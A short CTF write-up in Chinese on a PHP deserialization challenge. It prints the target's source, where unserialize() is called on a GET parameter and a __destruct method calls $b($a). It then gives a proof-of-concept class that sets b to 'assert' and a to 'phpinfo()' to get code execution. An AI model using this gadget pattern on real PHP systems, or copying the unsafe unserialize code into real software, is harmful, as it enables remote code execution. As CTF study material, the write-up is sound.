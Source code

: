 ## 知识点

php反序列化

assert（）

time（）

## 题解

打开页面 说是西瓜大计时器

没有更多信息了

打开源码 发现里面有 time.php?source

访问

```
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]); 
```

哈哈哈 到现在这个阶段，这真是灰常简单的一个反序列化了

由于没有文件包含，我们构造反序列化访问访问phpinfo（）试图寻找 flag

这里放下poc：

```
<?php
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "phpinfo()";
        $this->b = "assert";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
```
